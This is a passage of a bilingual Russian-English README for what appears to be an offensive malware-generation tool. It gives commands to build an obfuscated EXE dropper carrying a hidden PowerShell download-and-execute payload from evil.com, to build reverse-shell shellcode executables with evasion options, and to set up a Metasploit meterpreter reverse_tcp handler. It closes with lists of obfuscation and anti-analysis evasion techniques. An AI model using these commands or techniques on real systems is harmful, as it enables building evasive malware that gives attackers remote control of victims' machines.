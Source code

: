 #### 2. Создание EXE с повышенным уровнем обфускации / 2. Creating an EXE with an advanced obfuscation level
```bash
python main.py generate --type exe --payload "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://evil.com/script.ps1'))\"" --output dropper.exe --obfuscation high --evasion
```

#### 3. Генерация нагрузки на основе шелл-кода (используя demo_shellcode.py) / 3. Generating a payload based on shellcode (using demo_shellcode.py)
```bash
python demo_shellcode.py --host 192.168.1.100 --port 4444 --output shell.exe --obfuscation max --evasion --iterations 2
```

## Генерация шелл-кода через Metasploit / Shellcode Generation via Metasploit

Для создания шелл-кода с помощью Metasploit и нашей системы выполните:

1. Запустите скрипт для генерации шелл-кода:
```bash
python demo_shellcode.py --host <IP> --port <PORT> --output shellcode.exe --obfuscation high --evasion
```

2. Настройте обработчик в Metasploit для приема соединения:
```bash
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
run
```

## Техники обфускации / Obfuscation Techniques

- Обфускация строк
- Переименование переменных
- Добавление мертвого кода
- Усложнение потока управления
- Виртуализация кода

## Методы обхода обнаружения / Evasion Methods

- Обнаружение и обход виртуальных машин
- Обнаружение отладчиков
- Временные задержки
- Проверка запущенных процессов
- Проверка сетевого окружения
